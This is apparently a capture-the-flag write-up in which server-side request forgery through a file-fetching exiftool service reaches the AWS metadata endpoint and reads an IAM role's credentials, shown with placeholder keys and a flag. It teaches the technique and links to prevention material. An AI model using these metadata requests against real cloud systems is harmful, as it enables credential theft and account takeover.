



This webservice returns `exiftool` output from files through an URL or upload.



The challenge description mentions that the website is "hosted" with [ec2](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/concepts.html). As with the challenge title and theme of the challenge, the challenge most likely involves [instance metadata](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html).

> The IP address 169.254.169.254 is a link-local address and is valid only from the instance.

We try inputting `http://169.254.169.254/latest/meta-data/`:





The image does not load however data is still returned. Decoded base64:

```
ami-id
ami-launch-index
ami-manifest-path
block-device-mapping/ami
block-device-mapping/ebs0
block-device-mapping/ephemeral0
block-device-mapping/root
block-device-mapping/swap
elastic-inference/associations
elastic-inference/associations/eia-bfa21c7904f64a82a21b9f4540169ce1
events/maintenance/scheduled
hostname
iam/info
iam/security-credentials
iam/security-credentials/super-secret-admin-role
instance-action
instance-id
instance-life-cycle
instance-type
latest
latest/api/token
local-hostname
local-ipv4
mac
...
```

We are interested in finding information about [IAM (Identity and Access Management)](https://docs.amazonaws.cn/en_us/IAM/latest/UserGuide/introduction.html) which holds information about users. We try requesting `http://169.254.169.254/latest/meta-data/iam/security-credentials/super-secret-admin-role`:

```json
{
	"Code": "Success",
	"LastUpdated": "2020-04-02T18:50:40Z",
	"Type": "AWS-HMAC",
	"AccessKeyId": "12345678901",
	"SecretAccessKey": "v/12345678901",
	"Token": "flag{rip_cap1}",
	"Expiration": "2020-04-02T00:49:51Z"
}
```

**Flag**: `flag{rip_cap1}`

This challenge was based off of the [Capital One Breach](https://github.com/avishayil/caponeme).

This challenge was an example of a server-side request forgery vulnerability. For more information and how to prevent see
[here](https://portswigger.net/web-security/ssrf).

Additional Reading:

- [https://www.emergingdefense.com/blog/2019/1/16/abusing-aws-metadata-service](https://www.emergingdefense.com/blog/2019/1/16/abusing-aws-metadata-service)
- [https://blog.appsecco.com/an-ssrf-privileged-aws-keys-and-the-capital-one-breach-4c3c2cded3af](https://www.emergingdefense.com/blog/2019/1/16/abusing-aws-metadata-service)